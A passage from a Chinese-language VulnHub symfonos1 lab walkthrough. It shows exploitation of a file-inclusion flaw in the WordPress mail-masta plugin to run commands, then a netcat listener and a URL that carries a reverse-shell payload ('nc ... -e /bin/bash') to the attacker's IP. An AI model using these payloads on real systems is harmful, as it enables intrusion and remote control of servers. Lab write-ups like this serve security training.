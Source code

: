 ![](../../../../../assets/img/安全/实验/VulnHub/symfonos/symfonos1/17.png)

访问 helios 邮件 `http://symfonos.local/h3l105/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/var/mail/helios&a=ip a` 测试

![](../../../../../assets/img/安全/实验/VulnHub/symfonos/symfonos1/18.png)

可以执行,测试回弹 shell,kali 监听
```
nc -lvp 4444
```

访问 `http://symfonos.local/h3l105/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/var/mail/helios&a=nc -nv 192.168.141.134 4444 -e /bin/bash`
